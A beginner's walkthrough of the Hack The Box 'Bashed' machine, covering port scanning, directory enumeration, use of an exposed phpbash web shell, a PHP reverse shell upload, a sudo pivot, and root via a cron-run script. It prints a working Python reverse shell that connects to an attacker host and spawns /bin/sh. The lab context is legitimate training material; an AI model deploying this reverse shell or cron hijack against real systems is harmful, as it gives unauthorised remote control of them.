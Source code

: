# Bashed

This is my write-up for the machine Bashed on Hack The Box located at: [https://app.hackthebox.com/machines/Bashed](https://app.hackthebox.com/machines/Bashed).

{% hint style="info" %}
I am a beginner at penetration testing, so I will be referencing the Official Hack The Box Walk-through for this machine.
{% endhint %}

basic nmap scan: nmap `10.10.10.68`

![](<../../.gitbook/assets/image (349) (1) (1) (1) (1).png>)

We can see that port 80 (http) is open. I did a deeper nmap scan as well:

![](<../../.gitbook/assets/image (333) (1) (1) (1) (1).png>)

The port open is still the same. Going to the http site, we see the following:

![](<../../.gitbook/assets/image (354) (1) (1) (1) (1) (1).png>)

I got a hint from this that **phpbash** is being used on the server and that I will have to exploit it. I ran **gobuster** to see what directories were available:

![](<../../.gitbook/assets/image (356) (1) (1) (1) (1).png>)

The **uploads** directory was empty, and I believe we will have to upload a shell there. The **php** directory had the following:

![](<../../.gitbook/assets/image (329) (1) (1).png>)

The file was empty when downloaded. Looking in the **dev** folder, I was able to find the shell:

![](<../../.gitbook/assets/image (328) (1) (1).png>)

I was then able to find the user.txt flag:

![](<../../.gitbook/assets/image (357) (1) (1) (1) (1) (1) (1).png>)

Running `sudo -l`, I was able to see the following:

![](<../../.gitbook/assets/image (337) (1) (1) (1) (1) (1).png>)

I then realized I would have to upload a reverse shell to the system. There were two ways in my mind: **netcat** and **pentestmonkey php-reverse-shell**. I tried the **pentestmonkey** option first. I downloaded it from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), and then edited the IP address to be mine and then was able to upload it using `python3 -m http.server`.&#x20;

![](<../../.gitbook/assets/image (346) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (358) (1) (1) (1) (1) (1).png>)

I then accessed the file on the website and was able to get a reverse shell using **netcat**:

![](<../../.gitbook/assets/image (344) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (347) (1) (1) (1) (1) (1) (1).png>)

After a while of searching for a way to get out of a limited shell, I found [this site](https://guide.offsecnewbie.com/shells), where I saw the following:

![](<../../.gitbook/assets/image (343) (1) (1).png>)

Running that command got me out of the limited shell:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1) (1).png>)

The `sudo -l` command from before shows us that the user we currently are has access to run commands as **scriptmanager**. A quick Google search showed me that to run a command as another user is to run `sudo -u scriptmanager`. I wanted to get a reverse shell as the **scriptmanager** user:

![](<../../.gitbook/assets/image (360) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (345) (1) (1) (1).png>)

I edited the payload from [this website](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

![](<../../.gitbook/assets/image (350) (1) (1) (1) (1) (1) (1) (1).png>)

I get the same error as before:

![](<../../.gitbook/assets/image (355) (1) (1) (1) (1).png>)

When I ran linpeas (not shown in write-up, but uploaded the same way as the reverse shell), I noticed that there was a folder called **scripts**:

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1) (1) (1) (1).png>)

The code writes text to a file. At this point, I was actually lost. I found [this write-up](https://ethicalhacking.sh/posts/hack-the-box-bashed-writeup/) that clarifies that I should have been focused on the cron jobs and noticed that the file is ran by root in the cron job. I changed the original test.txt file by overwriting it by doing the following:

![](<../../.gitbook/assets/image (351) (1) (1) (1) (1) (1) (1).png>)

The content of the file was the following (from the write-up mentioned before):

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.11",8888));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

I was then able to get root (after a minute) and the root flag:

![](<../../.gitbook/assets/image (352) (1) (1) (1) (1) (1) (1).png>)

Going back to see where my mistake was, I should have noticed this in the output of linpeas.sh:

![](<../../.gitbook/assets/image (359) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (348) (1) (1) (1) (1) (1) (1) (1).png>)
